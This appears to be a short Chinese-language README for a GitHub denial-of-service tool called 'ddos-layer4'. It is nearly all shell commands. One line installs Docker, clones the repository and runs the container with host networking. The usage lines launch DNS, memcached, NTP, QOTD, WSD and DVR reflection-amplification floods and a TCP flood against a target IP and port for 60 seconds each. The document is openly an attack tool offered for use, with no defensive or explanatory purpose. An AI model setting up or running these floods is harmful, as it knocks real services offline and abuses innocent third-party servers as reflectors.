 ### 安装 （docker）
apt update -y && apt install docker.io -y && apt install git -y && git clone https://github.com/qq1521575701/ddos-layer4.git && cd ddos-layer4 && docker build -t ddos-layer4 . && docker run -itd --name ddos-layer4 --network host ddos-layer4:latest && docker exec -it ddos /bin/bash

### 使用
docker exec -it ddos-layer4 ./dns ip port dns.txt 1 -1 60 &

docker exec -it ddos-layer4 ./meme ip port meme.txt 1 -1 60 &

docker exec -it ddos-layer4 ./qotd ip port qotd.txt 1 -1 60 &

docker exec -it ddos-layer4 ./wsd ip port wsd.txt 1 -1 60 &

docker exec -it ddos-layer4 ./dvr ip port dvr.txt 1 -1 60 &

docker exec -it ddos-layer4 ./ntp ip port ntp.txt 1 -1 60 &

docker exec -it ddos-layer4 ./tcp ip port 1 -1 60 &
